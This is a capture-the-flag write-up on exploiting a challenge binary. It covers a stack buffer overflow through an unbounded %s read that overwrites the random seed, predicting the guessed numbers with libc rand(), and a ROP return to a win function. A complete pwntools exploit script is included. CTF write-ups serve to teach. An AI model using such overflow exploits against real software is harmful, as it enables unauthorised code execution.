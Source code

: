 the challenge description says we have to guess ? i dont think so :P<br>
![My Image](./img/really_random_challenge_desc.png)<br>

first we anayze the binary and rename variables<br>
![My Image](./img/Decomp_randome.png)<br>

we have a win()  named potato :D <br>
![My Image](./img/win.png)<br>
![My Image](./img/vars.png)<br>

here we have the overflow vuln the format specifier `%s` does not cap the amount of bytes we can input.<br>
![My Image](./img/vuln_1.png)<br>

we can overflow the Stack but how can we reach the ret;<br>
![My Image](./img/goal_1.png)<br>
we have to `guess` the 10 numbers that are generated and transformed here<br>
![My Image](./img/winningNumbers.png)<br>
take a quick look into the rc4() <br>
we copy paste this and add it to our Exploit Script.

```py
def rc4(randNumber,seed):
    tmp = (seed + randNumber >> 0x1f) >> 0x18
    return (seed + randNumber + tmp & 0xff) - tmp
```
![My Image](./img/rc4.png)<br>

ok now how can we guess the 10 numbers ? <br>
We know that the numbers are generated by the `libc` implementation of a `pseudo random number generator` the `rand()`.<br>
The `rand()` and the `srand()` are related to each other.<br>
Without the `srand()` function, the `rand()` function would always generate the same number each time the program is run.<br>

this first call to `rand()` will allways generate the same number.<br>
![My Image](./img/vuln_2.png)<br>
that means we know the seed and can generate the correct numbers by ourself.<br>

```
# this will import the libc rand() function to our python script
libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libc.so.6')
```


but even better we dont need to generate the correct seed because we overwrite the seed variable anyways with our Bof Payload <br>

the seed is initiated here<br>
![My Image](./img/gdb_seed.png)

after our Palyload is read in we can see the the seed is overwritten<br>
![My Image](./img/payload_overwrite_seed.png)<br>
so we simply set the seed to 0x1337<br>

```
    payload = b''
    payload += b'A'*112                       #fill the 112 bytes of the inputbuffer
    payload += p64(seed)                      #overflow the seed
```
now we generate 10 randome numbers with the `0x1337` seed

```py
for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')
```

and here is the full Script

```py
    seed = 0x1337
    libc.srand(seed)


    payload = b''
    payload += b'A'*112
    payload += p64(seed)                                 #set thee seed 
    payload += p64(0x1122334455667788)*2
    payload += p64(rop.find_gadget(['ret'])[0])          #return to fix Stack alignment
    payload += p64(elf.symbols['potato'])                #jump to the potato()


    sl(payload)

    rc('Guess my numbers!')
    sleep(1)

    for i in range(10):
        numb = rc4(libc.rand(),seed)
        sl(f'{numb}')

    inter()

```

care for Stack alignment otherwhise we end up here in a `SIGSEGV` because the `movaps` instruction needs a 0x10 byte aligned Stack<br>
![My Image](./img/movaps_issue.png)

```
Moves a double quadword containing four packed single-precision floating-point values from the source operand (second operand) to the destination operand (first operand). This instruction can be used to load an XMM register from a 128-bit memory location, to store the contents of an XMM register into a 128-bit memory location, or to move data between two XMM registers.

When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated.
```
source: https://c9x.me/x86/html/file_module_x86_id_180.html<br>



<br>


